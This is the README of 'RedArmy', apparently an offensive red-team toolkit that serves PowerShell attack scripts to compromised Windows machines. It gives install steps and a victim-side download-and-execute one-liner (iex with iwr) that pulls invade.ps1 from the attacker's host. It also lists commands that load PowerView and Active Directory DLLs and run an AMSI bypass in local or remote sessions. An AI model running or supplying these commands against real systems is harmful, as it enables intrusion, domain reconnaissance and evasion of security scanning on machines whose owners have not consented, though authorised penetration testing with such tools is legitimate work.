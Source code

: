 # RedArmy

## Installation

```
$ git clone https://gitlab.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ git submodule update --init --recursive
$ git submodule foreach git checkout master # optional
$ git submodule foreach git pull # optional
```

## Configuration

RedArmy uses `config.default` by default. You can copy it to `config`
and delete or add lines as necessary.

Any filepaths starting with `./` will create `Invoke` functions rather
than `Get` functions. `Invoke` commands are generally for things that
aren't scope specific such as modifying system settings. See [the
default config](./config.default) for examples.

## Usage

```
$ ./serve [--port PORT] [--update] <ip>
```

Once the `serve` script is running, you can use the following to load
RedArmy on the victim:

- `iex (iwr -DisableKeepAlive -UseBasicParsing
  http://<ip>:<port>/invade.ps1)`

That command will also displayed for you to copy and paste for
convenience.

### Examples

- Load ps1 script into current session
    - `iex (Get-PowerView)`
- Load ps1 script into specified session in background
    - `Deploy-PowerView <session>`
- Load DLL object into current session
    - `Import-ADModuleDLL`
- Load DLL object into specified session in background
    - `Deploy-ADModuleDLL <session>`
- Run ps1 script in current session
    - `Invoke-AMSIBypass`
- Run ps1 script in current session in background
    - `Invoke-AMSIBypassInBg`
- Run ps1 script in specified session in background
    - `Deploy-AMSIBypass <session>`
